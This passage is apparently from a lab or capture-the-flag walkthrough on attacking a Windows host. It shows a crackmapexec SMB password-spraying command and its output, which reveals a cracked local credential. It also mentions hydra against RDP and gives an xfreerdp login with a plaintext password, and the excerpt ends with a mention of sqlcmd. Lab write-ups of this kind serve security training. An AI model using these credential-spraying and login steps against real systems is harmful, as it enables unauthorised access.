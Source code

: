 ```bash
$ crackmapexec smb 10.129.203.10 -u users.txt -p passwords --local-auth
SMB         10.129.203.10   445    WIN-HARD         [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN-HARD) (domain:WIN-HARD) (signing:False) (SMBv1:False)
SMB         10.129.203.10   445    WIN-HARD         [+] WIN-HARD\simon:1234567
```

Crackmapexec gives us a user for smb. 

And while crackmapexec does support rdp I figured we used hydra just to showcase it. 

![image.png](image%201.png)

And we get a hit! We can answer `Question 2`.

So let’s login to rdp! I like to use `xfreerdp`.

```bash
xfreerdp /v:10.129.203.10 /u:fiona /p:'48Ns72!bns74@S84NNNSl'
```

Looking at the Users folder we can see some more local users. 

![image.png](image%202.png)

We can take at the sql database from the command prompt by running `sqlcmd` 
